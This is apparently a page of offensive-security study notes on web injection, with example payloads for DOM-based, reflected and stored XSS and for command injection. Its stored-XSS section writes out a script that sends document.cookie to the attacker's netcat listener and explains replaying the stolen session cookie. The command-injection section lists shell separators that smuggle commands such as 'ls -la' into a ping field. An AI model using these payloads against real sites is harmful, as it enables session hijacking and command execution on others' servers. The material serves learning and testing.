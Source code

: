 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Injection

Occurs when we find a way of sending html, css, js code, database petitions and others, via a petition or URL of a website.

## <mark style="color:purple;">Cross-site Scripting</mark>

* XSS scripting allows execution of  maliciuos code of javascript or any client-side language

### DOM-based

The html document of a page can be mutated

#### Example

* The URL shows changes of a parameter

<pre class="language-html" data-overflow="wrap" data-line-numbers><code class="lang-html">&#x3C;!-- We select language in a slider and is reflected on url -->
http://url/?language=en

&#x3C;!-- Check html of page for script tags and document.write() functions-->
...
&#x3C;select name="default">
<strong>  &#x3C;script>
</strong><strong>  ...
</strong>    document.write("&#x3C;option value='"+lang+"'>"+decodeURI(lang) + "&#x3C;/option>");
  ...
  &#x3C;/script>
&#x3C;/select>
...

&#x3C;!-- Use '> to close "value" parameter and then close tags -->
http://url?language='>&#x3C;/option>&#x3C;/select>   
&#x3C;!-- You will see all options of the slider are now displayed on screen -->

<strong>&#x3C;!-- Then create whatever tag -->
</strong>http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;h1>HACKED&#x3C;/h1>

&#x3C;!-- Abuse this to inject even js code -->
http://url?language='>&#x3C;/option>&#x3C;/select>&#x3C;script>if(window.confirm('HACKED\nTRY TO CALL FOR HELP?')){window.open('https://www.youtube.com/watch?v=dQw4w9WgXcQ');};&#x3C;/script>
</code></pre>

***

* When script tag is being filtered

{% code overflow="wrap" lineNumbers="true" %}
```bash
#Use image tag, putting a bad source cause a error, we handle it with 'onerror' parameter that let us insert JS Code
http://url?language='></option></select><img src=x onerror='alert("HACKED")'/>
```
{% endcode %}

***

### Reflected:&#x20;

When URL or form parameters are displayed on screen of the page

#### Example:

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We made a get to http://url/?msg=Hello
# The site Return "Hello" in any part of the html
# Then we could do something like this to inject code
<strong>curl http://url/?msg=&#x3C;script>$payload&#x3C;/script>
</strong></code></pre>

***

* A parameter sent in the query of the url is shown in screen

<pre class="language-bash" data-overflow="wrap" data-line-numbers data-full-width="false"><code class="lang-bash"># We insert Hello in a formulary
# The site return "Hello" in any part of the html
# Then we could fill the form with code to inject
<strong>&#x3C;script>$payload&#x3C;/script>
</strong><strong>
</strong><strong>#Sometimes tag filter can be bypass using capital letters
</strong>&#x3C;SCRIPT>$payload&#x3C;/SCRIPT>

#Or using img tag
&#x3C;img src=x onerror='alert("HACKED")'/>
</code></pre>

***

### Stored:

The input of values is saved by the web and display to anyone who browse to the site. Maliciuos code in the same way will remain globally in the web site.

#### Example:

* A formulary show a list of entries

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We insert name and comment in the formulary
#Every time an insertion is done the website update a list with the entries that is displayed to every user
#Then we could fill the form to inject code
<a href="https://www.youtube.com/watch?v=dQw4w9WgXcQ">CLICK HERE TO WIN A PRIZE</a>
```
{% endcode %}

***

### Secret disclosure:

When the application shows _Stored XSS_ vulnerability, we could try to hijkack cookies such as sessions tokens that are being stored on client-side

#### Example:

* By normal in an accessed session you can go to _Inspect>Application>Cookies_ tab and check the values being stored

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```
Name               Value                              HttpOnly
...                ...                                ...
PHPIDSESSID        e15df96b271a9729837c2bb206b522c7
...                ...                                ...
```
{% endcode %}

{% hint style="info" %}
* `HttpOnly` tag unmarked, indicates that the cookie can interact with JavaScript code
* `PHPIDSESSID` is the default session cookie on php handled pages
{% endhint %}

***

{% hint style="info" %}
We can assume that is configurated this way and try to get the cookie values by force
{% endhint %}

***

* On host machine set up a listener port with netcat

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
nc -nlvp $port
```
{% endcode %}

***

* Make a cookie hijacking using the Stored XSS vulnerable part

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#Fill the form with the payload
<script>fetch("$IP:$port" + document.cookie);</script>
#This will get the information of the cookie values
```
{% endcode %}

{% hint style="info" %}
The `$IP` and `$port` values are from your machine and the port opened with _netcat_
{% endhint %}

***

* Once you have the cookie value go to the website page, go to _Inspect>Application>Cookies_ tab, set the cookie value and reload the page

```bash
Name               Value                             
...                ...                                
PHPIDSESSID        $hijackedCookie     #We set the cookie obtained   
...                ...
#This will log you in the session we stealed without need of credentials
```

***



## <mark style="color:purple;">SQL Injection</mark>

* Poisoning estructured database queries based on SQL with the user input
* To know more about this type of injection you can go [here](../../database-attacks/sql-injection/)



## <mark style="color:purple;">Command injection</mark>

* Abuse user inputs on page to execute commands on the server of an application

#### Example

* When internally is being used use the _system()_ function

{% code overflow="wrap" lineNumbers="true" fullWidth="false" %}
```bash
#We send a petition with cmd=$command, this will let us now if we can have access to a terminal of the machine
curl -X POST http://url/? -d "cmd=whoami"
#Is possibly being handled by system() and will give the user on the response
```
{% endcode %}

#### Example 2:

* The aplication receive input for internal server commands

{% code overflow="wrap" lineNumbers="true" %}
```bash
#An aplication makes pings and recieve the IP as input
8.8.8.8 #Input
#Example output
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=117 time=26.4 ms
...
#Works like the following command inside
ping -c4 $input
```
{% endcode %}

***

* Abuse input to add other commands

<pre class="language-bash" data-overflow="wrap" data-line-numbers><code class="lang-bash">8.8.8.8; ls -la
#Try other options if is being filtered
<strong>8.8.8.8 &#x26; ls -la    
</strong>8.8.8.8 &#x26;&#x26; ls -la
8.8.8.8 | ls -la
8.8.8.8 || ls -la
</code></pre>

***

